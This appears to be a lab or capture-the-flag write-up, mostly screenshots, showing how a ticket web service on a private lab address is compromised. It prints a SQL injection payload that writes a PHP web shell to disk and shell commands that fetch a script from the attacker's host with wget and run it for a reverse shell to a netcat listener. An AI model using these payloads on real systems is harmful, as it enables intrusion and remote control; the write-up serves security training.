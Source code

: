![](../attachment/1ef9eff0b8001464459ea70ad45781fc.png)Seems to be a ticket service.

Registering and creating a new user and logging in as `issue_user : ManagementInsideOld797`

![](../attachment/b4b148e478117e88c62b8ad786bd71a2.png)

Now checking the parameter in the code:
![](../attachment/45e4f380274dc1c19a131aa5dcc2b108.png)
It is vulnerable for SQL injection

We can head to that url:
![](../attachment/a4548b70af73b3402c4a897352ec2b27.png)

Interrupting the page in burpsuite:
![](../attachment/7b45d39007cc1249a424c010b3b62d7e.png)
We can change add the priority parameter:
![](../attachment/07efa894da995f44734712ba59cdaeef.png)
We have a 400 bad request error.

But trying with POST request:
![](../attachment/d8dacbb2f1475f44b67e36bc09366aa4.png)
It's successful.

Now we can write the webshell to the path discovered from port [[30455]]
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/webshell.php' -- -
```
![](../attachment/3ebbec17b1985b6cefd13f8ff23019f7.png)

Now navigating to http://192.168.155.147:30455/webshell.php?cmd=id
![](../attachment/d0dbc0360a50e0121448da6b12744581.png)

To get a reverse shell:
![](../attachment/f1d2d91c97741b87bf4bd4310630bb3d.png)
Start a python server:
```
python3 -m http.server 30455
```
Setup a listener:
```
sudo rlwrap nc -nlvp 443
```
Then:
```
http://192.168.155.147:30455/shell.php?cmd=wget http://192.168.45.182/shell.sh
```
```
http://192.168.155.147:30455/shell.php?cmd=bash%20shell.sh
```
We get a shell:
![](../attachment/4f8b4dbdbd574be0775d93ec40c4a177.png)